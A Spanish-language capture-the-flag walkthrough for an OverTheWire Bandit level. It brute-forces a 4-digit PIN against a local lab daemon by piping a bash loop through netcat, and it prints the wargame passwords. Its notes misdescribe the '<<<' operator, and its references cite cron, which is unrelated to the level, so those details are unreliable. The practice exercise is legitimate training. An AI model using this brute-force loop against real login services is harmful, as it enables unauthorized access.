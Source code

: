 
# Objetivo

Un demonio está escuchando en el puerto 30002 y le dará la contraseña de bandit25 si se le da la contraseña de bandit24 y un código PIN numérico secreto de 4 dígitos. No hay forma de recuperar el código PIN excepto revisando todas las 10000 combinaciones, lo que se denomina fuerza bruta.
No es necesario crear nuevas conexiones cada vez.
## Datos de acceso al nivel
Host al que se va a conectar: **bandit.labs.overthewire.org**.
Puerto: **2220**.
Usuario: **bandit24**.
Contraseña: Encontrada en el nivel anterior: `VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`.

## Solución
```
bandit24@bandit:~$ nc localhost 30002 <<< VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 1234
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Fail! You did not supply enough data. Try again.
^C
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0001
...
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9998
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9999
bandit24@bandit:~$ 
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
...
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$ 

```

## Notas adicionales

- `nc` -> Permite acceder a puertos TCP o UDP de la propia u otras maquinas remotas.
- `<<<` -> Pasa al directorio que se encuentra en la izquierda, el contenido de la parte de la derecha.
- `seq` -> Ayuda a crear secuencias. (`seq + primer # + segundo #`)
- `echo` -> Imprime texto en pantalla.
- Se pueden crear if en la consola de comandos, se usa para mandar todas las combinaciones posibles al puerto 30002 y hasta que acertara la contrasena correcta.
## Referencias

cron, crontab, crontab(5) (use “man 5 crontab” to access this)
